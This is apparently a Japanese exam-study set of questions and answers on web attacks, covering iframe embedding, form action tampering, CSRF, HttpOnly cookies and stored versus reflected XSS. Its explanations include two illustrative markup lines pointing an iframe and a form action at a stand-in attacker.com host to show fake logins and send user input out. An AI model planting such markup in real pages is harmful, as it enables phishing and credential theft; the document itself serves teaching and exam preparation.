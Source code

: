 ## 【問題】正規のWebページ内に、攻撃者が管理する別のWebページ（例：偽のログイン画面）を埋め込んで表示させるために悪用されるHTMLタグです。



　（解答）**`<iframe>` タグ (インラインフレーム)**
　（解説）`<iframe>`タグは、本来、ページ内に別のHTML文書を埋め込むための正規の機能です。しかし、XSS攻撃では、`<iframe src="http://attacker.com/fake_login.html">` のように、攻撃者が用意した偽のページを埋め込むために悪用されます。見た目は正規サイトの一部であるため利用者は騙されやすく、フィッシングやクリックジャッキング攻撃の踏み台とされます。

## 【問題】Webフォームに入力されたデータの送信先URLを指定するHTMLの属性です。クロスサイトスクリプティング攻撃では、この属性値を攻撃者のサーバのURLに書き換えることで、利用者が入力した情報を直接盗み取ります。★



　（解答）**`form` タグの `action` 属性**
　（解説）`form action`属性の改ざんは、`<script>`タグを使わない広義のXSS攻撃の一種です。攻撃者は入力フォームの `action` 属性を `<form action="http://attacker.com/steal">` のように改ざんしたコードをページに挿入します。利用者がそのフォームに個人情報を入力して送信ボタンを押すと、データは正規のサーバではなく、攻撃者のサーバへ送信されてしまいます。

## 【問題】ログイン中の利用者に、悪意のあるサイトに仕込んだリンクをクリックさせるなどして、その利用者自身の意図しないリクエスト（例：商品の購入）をWebサーバに送信させる攻撃手法を何と呼びますか。★




　（解答）**クロスサイトリクエストフォージェリ (Cross-Site Request Forgery: CSRF)**
　（解説）CSRFは、`利用者の`認証`状態（セッション）を悪用する攻撃`です。攻撃の起点は外部サイトにあり、利用者が意図せず正規サイトへのリクエストを送信させられる点が特徴です。`form action`を改ざんするXSSは、サイト自体が改ざんされて利用者を騙すのに対し、`CSRFはサイトは正規のまま`で、利用者の意図しない操作をさせる点で異なります。この違いは試験で頻出です。

## 【問題】Cookieに設定することで、JavaScriptの `document.cookie` を使った読み取りを禁止する属性です。`<script>`タグを用いたXSS攻撃によるCookie情報窃取を防止します。



　（解答）**HTTPOnly属性**
　（解説）HTTPOnly属性は、XSS対策の一つとして非常に重要です。この属性が設定されたCookieは、ブラウザからサーバへのHTTPリクエスト時には自動的に送信されますが、JavaScriptコードからのアクセスはブロックされます。そのため、万が一XSSの脆弱性があったとしても、攻撃者がスクリプトでCookieを盗み出すことを防ぐことができます。しかし、`<iframe>`による偽画面の表示や`form action`改ざんには効果がないため、万能薬ではない点に注意が必要です。




## 【問題】クロスサイトスクリプティングの種別です。**格納型**は、悪意のあるスクリプトがデータベースなどに保存され、広範囲の利用者が被害に遭う危険なタイプです。**反射型**は、URLに仕込まれたスクリプトを特定の利用者にクリックさせ、その利用者のみが被害に遭うタイプです。




　（解答）**格納型XSS / 反射型XSS (Stored XSS / Reflected XSS)**
　（解説）
*   **格納型（Stored）XSS:** 掲示板やコメント欄のように、悪意のあるスクリプトがWebサーバのデータベースに保存（Store）され、そのページを閲覧した全ての利用者が被害に遭うため、影響範囲が広く危険です。
*   **反射型（Reflected）XSS:** 検索結果ページのように、URLパラメータに含まれるスクリプトが、サーバからの応答にそのまま埋め込まれて反射（Reflect）してくるタイプです。罠のURLをクリックした特定の利用者のみが被害に遭います。
